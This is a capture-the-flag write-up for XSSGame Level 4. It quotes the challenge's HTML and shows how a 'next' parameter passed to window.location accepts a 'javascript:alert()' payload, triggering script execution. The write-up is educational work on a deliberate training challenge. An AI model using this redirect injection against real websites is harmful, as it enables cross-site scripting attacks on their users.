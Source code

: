 ## XSSGame Level 4 Writeup
 ![4-1](https://github.com/user-attachments/assets/dd6ecbbf-8b8d-43b0-8371-44b957aad48d)



When I entered the challenge, I was directed to another page via a sign-up form, which led me to a page with an input field for an email address.

I read the source code and found the following:

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body>
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      <!-- We're ignoring the email, but the poor user will never know! -->
      Enter email: <input id="reader-email" name="email" value="">
      <br><br>
      <a href="confirm?next=welcome">Next >></a>
    </center>
  </body>
</html>
``` 

The only interesting thing was the 
`<a href="confirm?next=welcome">`  
This link would take me to the confirm page, where I found the following code: 
 

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      Thanks for signing up, you will be redirected soon...
      <script>
        setTimeout(function() { window.location = 'welcome'; }, 1000);
      </script>
    </center>
  </body>
</html>
``` 

The key part was the `window.location = 'welcome'` inside the `<script>`, which redirects after 1 second.


At this point, I thought: "What if I inject a malicious URL into the next parameter?" So, I modified the URL:

Original URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=welcome
```
Modified URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

When I accessed the modified URL, the JavaScript alert was triggered as expected!
![4-2](https://github.com/user-attachments/assets/5b632a32-0394-4c92-8882-21b4dfd7cbdc)

